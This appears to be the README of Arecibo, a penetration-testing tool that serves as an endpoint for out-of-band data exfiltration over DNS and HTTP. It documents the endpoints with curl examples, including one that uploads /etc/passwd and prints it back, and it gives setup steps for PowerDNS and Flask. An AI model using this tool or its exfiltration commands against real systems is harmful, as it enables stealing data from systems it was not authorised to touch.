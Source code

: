# Arecibo
Endpoint for Out-of-Band Exfiltration (DNS & HTTP)

#### Authors
Juan Manuel Fernández ([@TheXC3LL](https://twitter.com/TheXC3LL)) & Pablo Martinez ([@Xassiz](https://twitter.com/Xassiz))


## DNS Exfiltration
Create a new token:
```
curl localhost:5000/generatedns

{"htoken": "c008b5dd22817c50441522f917c66743"} 
```
Now you can use this identificative token to do DNS resolutions (ABCD.TOKEN.x.yourdomain.com):

```
> test-exfiltracion.c008b5dd22817c50441522f917c66743.x.DOMINIO
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   DOMINIO
Address: 127.0.0.1
```

You can check the hits and the data exfiltrated via /hitsdns/TOKEN:

```
curl localhost:5000/hitsdns/c008b5dd22817c50441522f917c66743

{"hits": [{"htoken": "c008b5dd22817c50441522f917c66743", "data": "test-exfiltracion", "id": 9, "timestamp": 1541748637.165287}]} 

```

If you want all the data concatenated use /dumpdns/token:

```
curl localhost/dumpdns/c008b5dd22817c50441522f917c66743

{"dump": "test-exfiltracionconcatenatedtootherinfo"}
```

## HTTP Exfiltration

Generate token:
```
curl localhost:5000/generatehttp

{"htoken": "2aa88ba02cbc0d6b72213fc117ae03dc"}
```

Now you can exfiltrate information through HTTP requests ( http://yourodmain.com/h/TOKEN). The GET / POST parameters, headers and IP will be registered by Arecibo. 

```
curl localhost:50000/h/2aa88ba02cbc0d6b72213fc117ae03dc
It works!
```

To retrieve de info, use /hitshttp/TOKEN:

```
 curl localhost:5000/hitshttp/2aa88ba02cbc0d6b72213fc117ae03dc
 
{"hits": [{"get": {}, "timestamp": 1541592259.541545, "headers": {"X-Real-Ip": "x", "Connection": "close", "Host": "x", "Accept": "*/*", "User-Agent": "curl/7.55.1"}, "htoken": "2aa88ba02cbc0d6b72213fc117ae03dc", "post": {}, "ip_address": "x"}]}
```

If you need to show an arbitrary HTML, HEADERS or status code use the POST method to set its values (body must be base64-encoded):

```
curl localhost:5000/generatehttp -H "Content-Type: application/json" --data '{"body" :"SGVsbG8gd29ybGQhIAo=", "headers":{"Server":"PWNED"}, "status" : 504}'
{
    "htoken": "324e18288eed54548392c5a65514b3dc"
}
```

## Dynamic DNS resolution
Arecibo resolves dominais with the schema X.Y.Z.A.ip.yourdomain.com as X.Y.Z.A:
```
> 10.0.0.1.ip.yourdomain.com
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   yourdomain.com
Address: 10.0.0.1
```

## File Transfer

Upload a file using /upload endpoint:
```
curl localhost:5000/upload -F 'x-file=@/etc/passwd'

{"htoken": "36981274bdb9cc833472681caeb82337"}
```

To download it use the generated token:

```
curl localhost:5000/download/36981274bdb9cc833472681caeb82337 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

## IP info

Shows client IP via /ip:

```
curl localhost:5000/ip
{"ip": "127.0.0.1"}
```

## Installing & Configuring

You need to install pdns & pdns-backend-pipe from your distro repos, and the modules flask & flask_restful for python.

1. Edit the configuration of arecibo-dns-backend.py with your values
2. Set execution privileges `chmod +x arecibo-dns-backend.py`
3. Edit pdns.conf (check where is in your distro)
```
setuid=1001
setgid=1001
launch=pipe
pipe-command=/your/path/arecibo-dns-backend.py
```
(Change the setuid/setgid for the values used to run the API script, they must be the same)

4. Run arecibo-api.py & pdns_server (check where is in your distro)

**YOUR SERVER MUST BE CONFIGURED AS AUTHORITATIVE DNS FOR YOUR DOMAIN**

**IMPORTANT:** You must set up a nginx or other reverse proxy in front of Arecibo in order to provide authentication & security.
